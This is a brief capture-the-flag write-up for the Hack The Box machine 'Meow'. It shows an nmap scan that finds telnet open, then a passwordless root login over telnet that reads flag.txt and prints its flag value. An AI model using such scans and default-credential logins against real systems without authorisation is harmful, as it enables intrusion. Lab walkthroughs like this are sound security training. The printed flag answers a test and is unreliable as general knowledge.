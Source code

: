 Hack the Box
Starting Pont
Meow

10.129.125.166

sudo nmap -sV -sC -oA nmap/meow 10.129.125.166

Starting Nmap 7.93SVN ( https://nmap.org ) at 2023-06-17 17:19 EDT
Nmap scan report for 10.129.125.166
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.88 seconds


$ telnet 10.129.125.166
Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 
